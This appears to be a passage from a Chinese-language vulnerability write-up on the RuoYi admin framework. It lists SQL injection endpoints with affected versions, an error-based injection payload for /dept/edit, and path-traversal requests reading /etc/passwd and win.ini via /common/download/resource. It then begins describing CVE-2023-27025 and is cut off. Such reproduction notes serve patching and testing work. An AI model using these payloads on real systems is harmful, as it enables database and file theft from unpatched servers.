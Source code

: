 ![image.png](https://mmbiz.qpic.cn/mmbiz_png/UkV8WB2qYAkb8xu0jnBTwkWNiat3Ndvoic2U3iatpc04WAjWTmRVAeCzvtHmANZl5eD9j1OlhyTG7mSXCrE0Cppnw/640?wx_fmt=png&from=appmsg "")  
### 注入点2 /role/export （<V-4.6.2）  
### 注入点3 /user/list （<V-4.6.2）  
### 注入点4 /user/list （<V-4.6.2）  
### 注入点5 /dept/list （<V-4.6.2）  
### 注入点6 /role/authUser/allocatedList （<V-4.6.2）  
### 注入点7 /role/authUser/unallocatedList  
### 注入点8 /dept/edit （<V-4.6.2）  
```
DeptName=xxxxxxxxxxx&DeptId=100&ParentId=555&Status=0&OrderNum=1&ancestors=0)or(extractvalue(1,concat(0,(select user()))));#
```  
### 注入点9 /tool/gen/createTable（V-4.7.1-V-4.7.5）  
  
参考  
https://blog.takake.com/posts/7219/#2-3-10-%E6%80%BB%E7%BB%93  
# 0x04 CNVD-2021-01931任意文件下载  
#### 漏洞简介  
  
登录后台后可以读取服务器上的任意文件。  
#### 影响版本：  
  
RuoYi<4.5.1  
#### 漏洞复现  
  
用4.5.0版本  
直接搜索关键字，download找到具体的controller  
路径  
```
/common/download/resource
```  
```
/common/download/resource?resource=/profile/../../../../etc/passwd
/common/download/resource?resource=/profile/../../../../Windows/win.ini
```  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/UkV8WB2qYAkb8xu0jnBTwkWNiat3NdvoicCmaBEH6CeYLibJoMkWiaV7n3EpB7Wa4DOib0E7S7arJHUOicqNOwZQ7REA/640?wx_fmt=png&from=appmsg "")  
# 0x05 CVE-2023-27025 若依任意文件下载  
## 漏洞简介  
  
该漏洞是若依（RuoYi）4.7.6 版本中存在的 **权限绕过 + 任意文件下载**  
 组合漏洞。攻击者通过后台管理接口添加恶意定时任务，修改系统配置文件路径，绕过下载功能的白名单限制，最终实现任意文件下载。漏洞本质是 **权限控制缺失**  
（允许低权限用户操作敏感接口）和 **路径校验不严**  
（未对动态修改的配置路径进行二次校验）的综合结果。  
## 影响版本  
- **若依（RuoYi）<= 4.7.6**  
## 利用条件  
1. **权限要求**  
：  
  